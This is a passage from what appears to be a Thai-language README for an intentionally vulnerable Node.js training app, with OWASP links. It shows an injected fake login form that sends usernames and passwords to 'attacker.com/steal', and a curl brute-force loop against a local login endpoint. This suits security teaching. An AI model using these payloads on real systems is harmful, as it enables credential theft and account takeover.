 ```javascript
  <h2>กรุณาเข้าสู่ระบบอีกครั้ง</h2>
  <form onsubmit="fetch('https://attacker.com/steal',{
    method:'POST',
    body:JSON.stringify({
      user:this.username.value,
      pass:this.password.value
    })
  });return false">
    <input name="username">
    <input name="password" type="password">
    <button>เข้าสู่ระบบ</button>
  </form>
</div>
```

### 3. Broken Authentication (ระดับความเสี่ยง: สูง)

#### การโจมตีแบบ Brute Force:
```bash
# ทดสอบรหัสผ่านจากไฟล์ passwords.txt:
while read password; do
  curl -X POST http://localhost:3000/login \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"admin\",\"password\":\"$password\"}"
done < passwords.txt
```

## 🔧 การรันทดสอบอัตโนมัติ

เราได้เตรียมสคริปต์ทดสอบอัตโนมัติไว้ให้:

```bash
# รันทดสอบทั้งหมด
./test.sh

# รันทดสอบเฉพาะ SQL Injection
./test.sh sql

# รันทดสอบเฉพาะ XSS
./test.sh xss
```

## 🧪 การทดสอบช่องโหว่

โปรเจกต์นี้มี UI สำหรับทดสอบช่องโหว่แต่ละประเภท ผู้ใช้สามารถลองโจมตีแอปพลิเคชันด้วยวิธีต่างๆ ตามคำแนะนำในหน้าเว็บ

## 📚 ทรัพยากรที่เกี่ยวข้อง

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)
- [NodeJS Security Best Practices](https://github.com/goldbergyoni/nodebestpractices#6-security-best-practices)
